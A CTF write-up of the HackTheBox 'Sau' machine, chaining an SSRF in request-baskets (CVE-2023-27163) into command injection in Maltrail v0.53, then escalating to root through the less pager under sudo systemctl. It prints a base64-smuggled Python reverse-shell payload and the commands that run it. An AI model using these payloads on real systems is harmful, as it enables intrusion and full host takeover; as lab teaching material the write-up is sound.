




# HTB: Sau

[ctf](/tags#ctf ) [hackthebox](/tags#hackthebox ) [htb-sau](/tags#htb-sau )
[nmap](/tags#nmap ) [request-baskets](/tags#request-baskets )
[feroxbuster](/tags#feroxbuster ) [cve-2023-27163](/tags#cve-2023-27163 )
[ssrf](/tags#ssrf ) [mailtrail](/tags#mailtrail ) [command-
injection](/tags#command-injection ) [systemctl](/tags#systemctl )
[less](/tags#less ) [pager-exploit](/tags#pager-exploit )  
  
Jan 6, 2024

HTB: Sau

Sau is an easy box from HackTheBox. I’ll find and exploit an SSRF
vulnerability in a website, and use it to exploit a command injection in an
internal Mailtrack website. From there, I’ll abuse how the Less pager works
with systemctl to get shell as root.

## Box Info

Name | [Sau](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fsau)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fsau)  
---|---  
Release Date | [08 Jul 2023](https://twitter.com/hackthebox_eu/status/1676984520350785538)  
Retire Date | 06 Jan 2024  
OS | Linux   
Base Points | Easy [20]  
Rated Difficulty |   
Radar Graph |   
 | 00:08:39[ celesian](https://app.hackthebox.com/users/114435)  
  
 | 00:11:40[ szymex73](https://app.hackthebox.com/users/139466)  
  
Creator | [ sau123](https://app.hackthebox.com/users/201596)  
  
  
## Recon

### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (55555), as well as two
filtered ports, 80 and 8338:

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.224
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-04 10:26 EST
    Nmap scan report for 10.10.11.224
    Host is up (0.11s latency).
    Not shown: 65531 closed ports
    PORT      STATE    SERVICE
    22/tcp    open     ssh
    80/tcp    filtered http
    8338/tcp  filtered unknown
    55555/tcp open     unknown
    
    Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
    oxdf@hacky$ nmap -p 22,55555 -sCV 10.10.11.224
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-04 10:29 EST
    Nmap scan report for 10.10.11.224
    Host is up (0.11s latency).
    
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    55555/tcp open  unknown
    | fingerprint-strings:
    |   FourOhFourRequest:
    |     HTTP/1.0 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     X-Content-Type-Options: nosniff
    |     Date: Thu, 04 Jan 2024 15:29:49 GMT
    |     Content-Length: 75
    |     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
    |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
    |     HTTP/1.1 400 Bad Request
    |     Content-Type: text/plain; charset=utf-8
    |     Connection: close
    |     Request
    |   GetRequest:
    |     HTTP/1.0 302 Found
    |     Content-Type: text/html; charset=utf-8
    |     Location: /web
    |     Date: Thu, 04 Jan 2024 15:29:21 GMT
    |     Content-Length: 27
    |     href="/web">Found</a>.
    |   HTTPOptions:
    |     HTTP/1.0 200 OK
    |     Allow: GET, OPTIONS
    |     Date: Thu, 04 Jan 2024 15:29:22 GMT
    |_    Content-Length: 0
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port55555-TCP:V=7.80%I=7%D=1/4%Time=6596CED7%P=x86_64-pc-linux-gnu%r(Ge
    SF:tRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\x
    SF:20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Thu,\x2004\x20Jan\x202
    SF:024\x2015:29:21\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/we
    SF:b\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Req
    SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
    SF:0close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2020
    SF:0\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Thu,\x2004\x20Jan\x202
    SF:024\x2015:29:22\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,
    SF:67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\
    SF:x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")
    SF:%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
    SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
    SF:equest")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
    SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
    SF:\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\x
    SF:20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCo
    SF:nnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"H
    SF:TTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20ch
    SF:arset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Ke
    SF:rberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
    SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
    SF:quest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nC
    SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options:
    SF:\x20nosniff\r\nDate:\x20Thu,\x2004\x20Jan\x202024\x2015:29:49\x20GMT\r\
    SF:nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20name
    SF:\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\n
    SF:")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
    SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
    SF:ad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\
    SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clos
    SF:e\r\n\r\n400\x20Bad\x20Request");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 95.25 seconds
    

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-
server) versions, the host is likely running Ubuntu 20.04 focal.

### Website - TCP 55555

#### Site

The site is a service for collecting and inspecting HTTP requests:

On clicking create, it returns a token that can be used to access the basket
in the future:

Opening the basket, it shows how to populate it:

If I run `curl http://10.10.11.224:55555/h5lgafg`, it shows up in the basket:

#### Tech Stack

The HTTP response headers don’t say much:

    
    
    HTTP/1.1 200 OK
    Content-Type: text/html; charset=utf-8
    Date: Thu, 04 Jan 2024 15:31:26 GMT
    Connection: close
    Content-Length: 8700
    

All of the URLs seem extension-less, and I’m unable to guess at one that loads
the index page.

The footer of the home page does say “Powered by [request-baskets](https://github.com/darklynx/request-baskets) | Version: 1.2.1”. This is a software written in Go.

#### Directory Brute Force

I’ll run `feroxbuster` against the site:

    
    
    oxdf@hacky$ feroxbuster -u http://10.10.11.224:55555
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.9.3
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.11.224:55555
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ All Status Codes!
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.9.3
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     🏁  HTTP methods          │ [GET]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Management Menu™
    ──────────────────────────────────────────────────
    404      GET        0l        0w        0c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
    302      GET        2l        2w       27c http://10.10.11.224:55555/ => http://10.10.11.224:55555/web
    200      GET      230l      606w     8700c http://10.10.11.224:55555/web
    301      GET        2l        3w       39c http://10.10.11.224:55555/Web => http://10.10.11.224:55555/web
    400      GET        1l       10w       75c http://10.10.11.224:55555/~
    400      GET        1l       10w       75c http://10.10.11.224:55555/Reports%20List
    400      GET        1l       10w       75c http://10.10.11.224:55555/external%20files
    400      GET        1l       10w       75c http://10.10.11.224:55555/%7D
    400      GET        1l       10w       75c http://10.10.11.224:55555/Style%20Library
    400      GET        1l       10w       75c http://10.10.11.224:55555/~joe
    400      GET        1l       10w       75c http://10.10.11.224:55555/modern%20mom
    400      GET        1l       10w       75c http://10.10.11.224:55555/neuf%20giga%20photo
    301      GET        2l        3w       39c http://10.10.11.224:55555/WEB => http://10.10.11.224:55555/web
    400      GET        1l       10w       75c http://10.10.11.224:55555/%E2%80%8E
    400      GET        1l       10w       75c http://10.10.11.224:55555/plain]
    400      GET        1l       10w       75c http://10.10.11.224:55555/[
    400      GET        1l       10w       75c http://10.10.11.224:55555/fixed!
    400      GET        1l       10w       75c http://10.10.11.224:55555/Anv%C3%A4ndare
    400      GET        1l       10w       75c http://10.10.11.224:55555/!ut
    400      GET        1l       10w       75c http://10.10.11.224:55555/!
    400      GET        1l       10w       75c http://10.10.11.224:55555/Web%20References
    400      GET        1l       10w       75c http://10.10.11.224:55555/My%20Project
    400      GET        1l       10w       75c http://10.10.11.224:55555/]
    400      GET        1l       10w       75c http://10.10.11.224:55555/~chris
    400      GET        1l       10w       75c http://10.10.11.224:55555/Contact%20Us
    400      GET        1l       10w       75c http://10.10.11.224:55555/%D7%99%D7%9D
    400      GET        1l       10w       75c http://10.10.11.224:55555/~site
    400      GET        1l       10w       75c http://10.10.11.224:55555/~admin
    400      GET        1l       10w       75c http://10.10.11.224:55555/~a
    400      GET        1l       10w       75c http://10.10.11.224:55555/!backup
    400      GET        1l       10w       75c http://10.10.11.224:55555/!_images
    400      GET        1l       10w       75c http://10.10.11.224:55555/!_archives
    400      GET        1l       10w       75c http://10.10.11.224:55555/!textove_diskuse
    400      GET        1l       10w       75c http://10.10.11.224:55555/!res
    400      GET        1l       10w       75c http://10.10.11.224:55555/!images
    400      GET        1l       10w       75c http://10.10.11.224:55555/Donate%20Cash
    400      GET        1l       10w       75c http://10.10.11.224:55555/Home%20Page
    400      GET        1l       10w       75c http://10.10.11.224:55555/Press%20Releases
    400      GET        1l       10w       75c http://10.10.11.224:55555/Planned%20Giving
    400      GET        1l       10w       75c http://10.10.11.224:55555/Privacy%20Policy
    400      GET        1l       10w       75c http://10.10.11.224:55555/Site%20Map
    400      GET        1l       10w       75c http://10.10.11.224:55555/~images
    400      GET        1l       10w       75c http://10.10.11.224:55555/%E9%99%A4%E5%80%99%E9%80%89
    400      GET        1l       10w       75c http://10.10.11.224:55555/~r
    400      GET        1l       10w       75c http://10.10.11.224:55555/~sys~
    400      GET        1l       10w       75c http://10.10.11.224:55555/~mike
    400      GET        1l       10w       75c http://10.10.11.224:55555/%E4%BE%B5%E6%9D%83
    400      GET        1l       10w       75c http://10.10.11.224:55555/%E9%99%A4%E6%8A%95%E7%A5%A8
    400      GET        1l       10w       75c http://10.10.11.224:55555/quote]
    400      GET        1l       10w       75c http://10.10.11.224:55555/!upload
    400      GET        1l       10w       75c http://10.10.11.224:55555/!old
    400      GET        1l       10w       75c http://10.10.11.224:55555/About%20Us
    400      GET        1l       10w       75c http://10.10.11.224:55555/Bequest%20Gift
    400      GET        1l       10w       75c http://10.10.11.224:55555/Dirk-M%C3%BCller
    400      GET        1l       10w       75c http://10.10.11.224:55555/Thomas-Sch%C3%B6ll
    400      GET        1l       10w       75c http://10.10.11.224:55555/Gift%20Form
    400      GET        1l       10w       75c http://10.10.11.224:55555/Life%20Income%20Gift
    400      GET        1l       10w       75c http://10.10.11.224:55555/New%20Folder
    400      GET        1l       10w       75c http://10.10.11.224:55555/Site%20Assets
    400      GET        1l       10w       75c http://10.10.11.224:55555/What%20is%20New
    400      GET        1l       10w       75c http://10.10.11.224:55555/a0%7D
    400      GET        1l       10w       75c http://10.10.11.224:55555/error%1F_log
    400      GET        1l       10w       75c http://10.10.11.224:55555/extension]
    400      GET        1l       10w       75c http://10.10.11.224:55555/~alex
    400      GET        1l       10w       75c http://10.10.11.224:55555/~blog
    400      GET        1l       10w       75c http://10.10.11.224:55555/~chat
    400      GET        1l       10w       75c http://10.10.11.224:55555/~css
    400      GET        1l       10w       75c http://10.10.11.224:55555/~eric
    400      GET        1l       10w       75c http://10.10.11.224:55555/~forum
    400      GET        1l       10w       75c http://10.10.11.224:55555/~js
    400      GET        1l       10w       75c http://10.10.11.224:55555/~home
    400      GET        1l       10w       75c http://10.10.11.224:55555/~mark
    400      GET        1l       10w       75c http://10.10.11.224:55555/~gary
    400      GET        1l       10w       75c http://10.10.11.224:55555/~tmp
    400      GET        1l       10w       75c http://10.10.11.224:55555/~liam
    400      GET        1l       10w       75c http://10.10.11.224:55555/%C4%BC
    400      GET        1l       10w       75c http://10.10.11.224:55555/%C4%A3%C4%BC
    400      GET        1l       10w       75c http://10.10.11.224:55555/%C5%B1%C4%BC
    400      GET        1l       10w       75c http://10.10.11.224:55555/%DD%BF%C4%BC
    400      GET        1l       10w       75c http://10.10.11.224:55555/%CC%A8%C4%BC
    400      GET        1l       10w       75c http://10.10.11.224:55555/%E2%80%9D
    400      GET        1l       10w       75c http://10.10.11.224:55555/%E7%89%B9%E6%AE%8A
    400      GET        1l       10w       75c http://10.10.11.224:55555/%E8%AE%A8%E8%AE%BA
    400      GET        1l       10w       75c http://10.10.11.224:55555/[0-9]
    [####################] - 1m     30000/30000   0s      found:83      errors:0
    [####################] - 1m     30000/30000   458/s   http://10.10.11.224:55555/
    

It finds some errors, but nothing interesting.

## Shell as puma

### Access Mailtrail

#### Find Exploit

Searching for “request-baskets exploit” leads to [this blog
post](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-
request-forgery-cve-2023-27163-2bab94f201f7) about CVE-2023-27163. It’s a
server-side request forgery (SSRF) vulnerability, which means I can get the
server to send requests on my behalf. The post calls out version 1.2.1 as
vulnerable:

#### Exploit

There’s a nice POC
[here](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh)
to exploit this. I’ll run it to try to read port 80:

    
    
    oxdf@hacky$ ./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
    Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163
    
    > Creating the "nunfxp" proxy basket...
    > Basket created!
    > Accessing http://10.10.11.224:55555/nunfxp now makes the server request to http://127.0.0.1:80.
    > Authorization: jNZBYjgQRAzttysfJcl5dcKLBO0YkzLVCkYgEQsbZzXs
    

It gives a URL I can visit to see the results:

The CSS and images aren’t loading, but I can at least see it’s Mailtrail
v0.53.

I’ll try the same thing on 8338, and find it’s the same application.

### RCE in Mailtrail

#### Identify

Searching for “Mailtrail exploit”, the first hit is [this
repo](https://github.com/spookier/Maltrail-v0.53-Exploit) which has an
unauthenticated code execution vulnerability in Mailtrail v0.53. The login
page doesn’t sanitize the input for the username parameter, which leads to OS
command injection.

#### Script Analysis

This script is pretty hacky, using `os.system` in Python to call `curl` to
make the request:

    
    
    def curl_cmd(my_ip, my_port, target_url):
    	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
    	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    	os.system(command)
    

It’s a simple POST request to the given url plus `/login`.

    
    
    def main():
    	listening_IP = None
    	listening_PORT = None
    	target_URL = None
    
    	if len(sys.argv) != 4:
    		print("Error. Needs listening IP, PORT and target URL.")
    		return(-1)
    	
    	listening_IP = sys.argv[1]
    	listening_PORT = sys.argv[2]
    	target_URL = sys.argv[3] + "/login"
    	print("Running exploit on " + str(target_URL))
    	curl_cmd(listening_IP, listening_PORT, target_URL)
    

#### Exploit

To exploit this, I’ll grab the POC, but remove where it adds `/login` on line
28. I’ll get a new SSRF url that goes to `/login`:

    
    
    oxdf@hacky$ ./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80/login
    Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163
    
    > Creating the "jgulua" proxy basket...
    > Basket created!
    > Accessing http://10.10.11.224:55555/jgulua now makes the server request to http://127.0.0.1:80/login.
    > Authorization: Je6HFdfIxVWIxmlDzyQWsTnB0uFGpdBAkOb8n3WniMGZ
    

Now I’ll run the modified exploit script:

    
    
    oxdf@hacky$ python mailtrack_rce.py 10.10.14.6 443 http://10.10.11.224:55555/jgulua
    Running exploit on http://10.10.11.224:55555/jgulua
    

It hangs, but at a listening `nc` there’s a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.224 46168
    $ id
    uid=1001(puma) gid=1001(puma) groups=1001(puma)
    

I’ll use the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q) to
upgrade my shell:

    
    
    $ script /dev/null -c bash
    Script started, file is /dev/null
    puma@sau:/opt/maltrail$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    puma@sau:/opt/maltrail$ 
    

I’l grab `user.txt` from the puma user’s home directory:

    
    
    puma@sau:~$ cat user.txt
    4353b8ab************************
    

## Shell as root

### Enumeration

The puma user can run some `systemctl` commands as root without a password
using `sudo`:

    
    
    puma@sau:~$ sudo -l
    Matching Defaults entries for puma on sau:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
    

Running this command prints the status of the service:

    
    
    puma@sau:~$ /usr/bin/systemctl status trail.service
    ● trail.service - Maltrail. Server of malicious traffic detection system
         Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
         Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
           Docs: https://github.com/stamparm/maltrail#readme
                 https://github.com/stamparm/maltrail/wiki
       Main PID: 891 (python3)
          Tasks: 10 (limit: 4662)
         Memory: 24.4M
         CGroup: /system.slice/trail.service
                 ├─ 891 /usr/bin/python3 server.py
                 ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
                 ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p…
                 ├─1244 sh                              
                 ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I…
                 ├─1246 /bin/sh
                 ├─1248 script /dev/null -c bash
                 ├─1249 bash
                 └─1280 /usr/bin/systemctl status trail.service
    

### Exploit Less

If the screen is not big enough to handle the output of `systemctl`, it gets
passed to `less`. In fact, because I’m in a weird TTY, when I run with `sudo`,
this happens:

    
    
    puma@sau:~$ sudo /usr/bin/systemctl status trail.service 
    WARNING: terminal is not fully functional
    -  (press RETURN)● trail.service - Maltrail. Server of malicious traffic detection system
         Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
         Active: active (running) since Thu 2024-01-04 13:33:54 UTC; 2h 25min ago
           Docs: https://github.com/stamparm/maltrail#readme
                 https://github.com/stamparm/maltrail/wiki
       Main PID: 891 (python3)
          Tasks: 12 (limit: 4662)
         Memory: 26.7M
         CGroup: /system.slice/trail.service
                 ├─ 891 /usr/bin/python3 server.py
                 ├─1234 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
                 ├─1235 /bin/sh -c logger -p auth.info -t "maltrail[891]" "Failed p>
                 ├─1244 sh
                 ├─1245 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I>
                 ├─1246 /bin/sh
                 ├─1248 script /dev/null -c bash
                 ├─1249 bash
                 ├─1281 sudo /usr/bin/systemctl status trail.service
                 ├─1282 /usr/bin/systemctl status trail.service
                 └─1284 pager
    
    Jan 04 13:33:54 sau systemd[1]: Started Maltrail. Server of malicious traffic d>
    Jan 04 15:58:22 sau sudo[1270]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=ro>
    

At the bottom of the terminal there is text and it’s actually hanging. If I
enter `!sh` in `less`, that will run `sh`, and drop to a shell:

And I can grab the flag:

    
    
    # cd /root
    # cat root.txt
    ded99f75************************
    

